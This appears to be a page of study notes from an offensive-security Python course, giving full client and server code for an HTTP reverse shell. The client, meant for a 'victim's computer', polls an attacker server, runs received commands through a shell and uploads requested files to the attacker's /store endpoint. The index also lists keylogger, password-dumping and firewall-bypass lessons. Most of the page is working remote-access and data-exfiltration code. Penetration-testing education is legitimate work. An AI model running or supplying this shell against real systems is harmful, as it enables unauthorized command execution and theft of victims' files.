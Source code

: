 ```yaml
---
title: Coding a data exfiltration script for a http shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
---
```


# Coding a data exfiltration script for a http shell

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## Client side

To be run on victim's computer.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import requests
import os
import subprocess
import time

while True:

    req = requests.get('http://192.168.0.152:8080')
    command = req.text
    if 'terminate' in command:
        break


# Now similar to what we have done in our TCP reverse shell, we check if file exisit in the first place, if not then we 
# notify our attacker that we are unable to find the file, but if the file is there then we will :-
# 1.Append /store in the URL
# 2.Add a dictionary key called 'file'
# 3.requests library use POST method called "multipart/form-data" when submitting files

#All of the above points will be used on the server side to distinguish that this POST is for submitting a file NOT a usual command output. Please see the server script for more details on how we can use these points to get the file


    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path): # check if the file is there
            url = "http://192.168.0.152:8080/store" # Appended /store in the URL
            files = {'file': open(path, 'rb')} # Add a dictionary key called 'file' where the key value is the file itself
            r = requests.post(url, files=files) # Send the file and behind the scenes, requests library use POST method called "multipart/form-data"
        else:
            post_response = requests.post(url='http://192.168.0.152:8080', data='[-] Not able to find the file!'.encode())
    else:
        CMD = subprocess.Popen(command, shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stdout.read())
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stderr.read())
    time.sleep(3)


```

## Server side

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import http.server
import os, cgi

HOST_NAME = '10.0.2.15'
PORT_NUMBER = 8080

class MyHandler(http.server.BaseHTTPRequestHandler):

    def do_GET(self):

        command = input("Shell> ")
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()
        self.wfile.write(command.encode())

    def do_POST(self):

        #Here we will use the points which we mentioned in the Client side, as a start if the "/store" was in the URL then this is a POST used for file transfer so we will parse the POST header, if its value was 'multipart/form-data' then we will pass the POST parameters to FieldStorage class, the "fs" object contains the returned values from FieldStorage in dictionary fashion.

        if self.path == '/store':
            try:
                ctype, pdict = cgi.parse_header(self.headers.get('content-type'))
                if ctype == 'multipart/form-data':
                    fs = cgi.FieldStorage(fp=self.rfile, headers = self.headers, environ= {'REQUEST_METHOD': 'POST'})
                else:
                    print('[-]Unexpected POST request')
                fs_up = fs['file'] # Remember, on the client side we submitted the file in dictionary fashion, and we used the key 'file'
                with open('/home/kali/place_holder.txt', 'wb') as o: # create a file holder called 'placer_holder.txt' and write the received file into this 'place_holder.txt'. After the operation you need to rename this file to the original one, so the extention gets recognized. 
                    print('[+] Writing file ..')
                    o.write(fs_up.file.read())
                    self.send_response(200)
                    self.end_headers()
            except Exception as e:
                print(e)
            return
        self.send_response(200)
        self.end_headers()
        length = int(self.headers['Content-length'])
        postVar = self.rfile.read(length)
        print(postVar.decode())

if __name__ == '__main__':
    server_class = http.server.HTTPServer
    httpd = server_class((HOST_NAME, PORT_NUMBER), MyHandler)
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        print ('[!] Server is terminated')
        httpd.server_close()


```